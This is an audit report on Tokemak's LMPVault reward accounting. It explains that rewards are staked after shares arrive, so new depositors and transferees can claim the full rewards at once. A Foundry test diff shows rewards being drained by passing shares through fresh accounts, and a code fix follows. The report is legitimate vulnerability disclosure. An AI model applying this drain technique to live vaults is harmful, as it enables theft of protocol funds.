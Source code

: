 Jolly Jetblack Camel

high

# Rewards can be drained due to incorrect handling of `userRewardPerTokenPaid` accounting
## Summary

The [AbstractRewarder.userRewardPerTokenPaid](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L69-L70) mapping is updated too late on mint/deposit and inbound transfer of vault shares which enables a malicious user to drain the rewards.

## Vulnerability Detail

### Reward accounting
The [AbstractRewarder.userRewardPerTokenPaid](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L69-L70) mapping holds the return value of [AbstractRewarder.rewardPerToken()](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L169-L181) for a user since the last call to [AbstractRewarder._updateReward(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L124-L140).  In case of a new unrelated user account, the mapping holds tha value `0`.  

Therefore, it's crucial that [AbstractRewarder._updateReward(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L124-L140) is called **before** vault shares are **transferred** or freshly **minted** (includes deposit) to a user, otherwise the reward accounting, see [AbstractRewarder.earned(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L183-L206), will act as if the user had the shares since the beginning (`userRewardPerTokenPaid` mapping holds `0`) or since the last call to  [AbstractRewarder._updateReward(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L124-L140) when `userRewardPerTokenPaid` was updated.

### Vault reward handling

The `LMPVault` handles the reward accounting on mint/redeem/deposit/withdraw and transfer of shares using ERC-20 transfer hooks:
* [LMPVault._beforeTokenTransfer(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L834-L852) handles redeem/withdraw and outbound transfer of shares. It **correctly** withdraws all the rewards (main + extra) the user is eligible for, see [L844](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L844) and [MainRewarder.withdraw(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/MainRewarder.sol#L73-L84).
* [LMPVault._afterTokenTransfer(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L854-L865) handles mint/deposit and inbound transfer of shares. It **incorreclty** stakes the shares and rewards become available **immediately** due to the above `Reward accounting` pitfall, i.e. [AbstractRewarder._updateReward(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L124-L140) is called **after** shares arrived at user account, see [L863](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L863) and [MainRewarder.stake(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/MainRewarder.sol#L86-L93 ).

Moreover, the [DestinationVault](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/DestinationVault.sol#L335-L354) has the same issue and due to the analogy, this report is solely focused on the explanation, PoC and solution in the case of `LMPVault`.

## Impact

The above vulnerability leads to the following consequences:
1. A new user who **deposits** (includes mint) base assets into a vault is eligible for rewards as if he had staked them since the beginning, i.e. **loss of rewards** for the protocol.
2. A user can **transfer** his vault shares to another new user, thereby he gets his rewards while the new user is also immediately eligible for rewards as if he had staked them since the beginning. By transferring the shares to the next new user and so on, all the **rewards can be drained** from the protocol.

## Code Snippet

The following PoC modifies the existing test case `LMPVaultMintingTests .test_deposit_StartsEarningWhileStillReceivingToken()` in order to prove the above claims:
1. Initial depositor claims rewards immediately after deposit (same rewards as depositor who waited for `10 000` blocks)
2. Initial depositor transfers vault shares to other user who can immediately claim the same rewards again
3. Other user transfers vault shares to next other user who is immediately eligible for the same rewards again

Just apply the *diff* below and run the test with `forge test -vv --match-test test_deposit_StartsEarningWhileStillReceivingToken`:

```diff
diff --git a/test/vault/LMPVault-Withdraw.t.sol b/test/vault/LMPVault-Withdraw.t.sol
index 47b238e..ba0f233 100644
--- a/test/vault/LMPVault-Withdraw.t.sol
+++ b/test/vault/LMPVault-Withdraw.t.sol
@@ -516,19 +516,65 @@ contract LMPVaultMintingTests is Test {
         _toke.approve(address(_lmpVault.rewarder()), 1000e18);
         _lmpVault.rewarder().queueNewRewards(1000e18);
 
-        uint256 shares = _lmpVault.deposit(1000, address(this));
 
         vm.roll(block.number + 10_000);
 
+        // @audit-issue can deposit anytime and can claim rewards immediately
+        uint256 shares = _lmpVault.deposit(1000, address(this));
+
+        // initial depositor is eligible for rewards
         assertEq(shares, 1000);
         assertEq(_lmpVault.balanceOf(address(this)), 1000);
         assertEq(_lmpVault.rewarder().balanceOf(address(this)), 1000);
+        // @audit-issue initial depositor should not be eligible for rewards for freshly received shares
         assertEq(_lmpVault.rewarder().earned(address(this)), 1000e18, "earned");
 
+        // create other user and make sure he has nothing
+        address otherUser = makeAddr("otherUser");
+        assertEq(_lmpVault.balanceOf(otherUser), 0);
+        assertEq(_lmpVault.rewarder().balanceOf(otherUser), 0);
+        assertEq(_lmpVault.rewarder().earned(otherUser), 0, "earned");
+
+        // transfer shares from initial depositor to other user and implicitly claim rewards
         assertEq(_toke.balanceOf(address(this)), 0);
-        _lmpVault.rewarder().getReward();
+        _lmpVault.transfer(otherUser, 1000);
         assertEq(_toke.balanceOf(address(this)), 1000e18);
         assertEq(_lmpVault.rewarder().earned(address(this)), 0, "earnedAfter");
+
+        // check if other user got shares
+        vm.startPrank(otherUser);
+        assertEq(_lmpVault.balanceOf(otherUser), 1000);
+        // @audit-issue other user should not be eligible for rewards for freshly received shares
+        assertEq(_lmpVault.rewarder().earned(otherUser), 1000e18, "earned");
+        vm.stopPrank();
+        
+        // rewarder gets funded with next batch of rewards
+        _toke.mint(address(this), 1000e18);
+        _toke.approve(address(_lmpVault.rewarder()), 1000e18);
+        _lmpVault.rewarder().queueNewRewards(1000e18);
+
+        // create next other user and make sure he has nothing
+        address nextOtherUser = makeAddr("nextOtherUser");
+        assertEq(_lmpVault.balanceOf(nextOtherUser), 0);
+        assertEq(_lmpVault.rewarder().balanceOf(nextOtherUser), 0);
+        assertEq(_lmpVault.rewarder().earned(nextOtherUser), 0, "earned");
+
+        // transfer shares from other user to next other user and implicitly claim rewards
+        vm.startPrank(otherUser);
+        assertEq(_toke.balanceOf(otherUser), 0);
+        _lmpVault.transfer(nextOtherUser, 1000);
+        assertEq(_toke.balanceOf(otherUser), 1000e18);
+        assertEq(_lmpVault.rewarder().earned(otherUser), 0, "earnedAfter");
+        vm.stopPrank();
+
+        // check if next other user got shares
+        vm.startPrank(nextOtherUser);
+        assertEq(_lmpVault.balanceOf(nextOtherUser), 1000);
+        // @audit-issue next other user should not be eligible for rewards for freshly received shares
+        assertEq(_lmpVault.rewarder().earned(nextOtherUser), 1000e18, "earned");
+        vm.stopPrank();
+
+        // and so on ...
     }
 
     function test_deposit_RevertIf_NavChangesUnexpectedly() public {

```

## Tool used

Manual Review

## Recommendation

Make sure the `userRewardPerTokenPaid` mapping is updated via [AbstractRewarder._updateReward(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/rewarders/AbstractRewarder.sol#L124-L140) **before** a user receives vault shares. This can be done by moving the stake functionality from [LMPVault._afterTokenTransfer(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L854-L865)  to  [LMPVault._beforeTokenTransfer(...)](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVault.sol#L834-L852):

```diff
diff --git a/src/vault/LMPVault.sol b/src/vault/LMPVault.sol
index 62b3872..0392ec6 100644
--- a/src/vault/LMPVault.sol
+++ b/src/vault/LMPVault.sol
@@ -844,6 +844,12 @@ contract LMPVault is
             rewarder.withdraw(from, amount, true);
         }
 
+        // If this isn't a burn, then the recipient should be earning in the rewarder
+        // "Stake" the tokens there so they start earning
+        if (to != address(0)) {
+            rewarder.stake(to, amount);
+        }
+
         // Make sure the destination wallet total share balance doesn't go above the
         // current perWalletLimit
         if (balanceOf(to) + amount > perWalletLimit) {
@@ -855,13 +861,6 @@ contract LMPVault is
         // Nothing to do really do here
         if (from == to) {
             return;
-        }
-
-        // If this isn't a burn, then the recipient should be earning in the rewarder
-        // "Stake" the tokens there so they start earning
-        if (to != address(0)) {
-            rewarder.stake(to, amount);
-        }
     }
 
     function _snapStartNav() private view returns (uint256 oldNav, uint256 startingTotalSupply) {

```
